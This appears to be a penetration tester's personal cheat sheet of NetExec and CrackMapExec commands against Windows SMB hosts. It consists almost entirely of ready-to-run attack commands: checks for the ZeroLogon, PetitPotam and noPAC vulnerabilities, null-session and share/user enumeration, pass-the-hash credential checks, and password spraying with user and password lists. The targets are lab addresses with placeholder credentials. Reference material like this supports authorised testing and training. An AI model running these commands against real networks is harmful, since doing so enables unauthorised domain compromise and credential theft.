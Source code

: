 ## nxc Testing CVEs
```shell
# ZeroLogon
nxc smb 172.16.150.20 -u '' -p '' -M zerologon

# PetitPotam
nxc smb 172.16.150.20 -u '' -p '' -M petitpotam

# noPAC
nxc smb 172.16.150.20 -u '' -p '' -M nopac
```

# CrackMapExec Commands
As of 2024, CrackMapExec is deprecated, and I primarily use NetExec. However, there are still some cases where CrackMapExec remains useful. Below are the commands I use most frequently:
## cme Enumeration
```shell
# Enumerating Network (Find active reachable hosts)
crackmapexec smb 172.16.150.0/24

# Null Session (Access without Credentials)
crackmapexec smb 172.16.150.20 -u '' -p ''

# Shares
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --shares

# Domain Password Policy
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --pass-pol

# Domain Users
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --users
```
## cme Checking Credentials & Password Spraying
```shell
# Check Credentials - with Password
crackmapexec smb 172.16.150.20 -u john -p 'Password123!'

# Check Credentials - with Hash
crackmapexec smb 172.16.150.20 -u john -H 'NT_HASH'
crackmapexec smb 172.16.150.20 -u john -H 'LM_HASH:NT_HASH'

# Password Spraying
crackmapexec smb 172.16.150.20 -u john jane marcus -p 'Password123!'
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' 'PleaseDontHackMe' '1337H4x0r'
crackmapexec smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt
crackmapexec smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt --continue-on-success

# Local Authentication
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --local-auth
crackmapexec smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt --local-auth
```
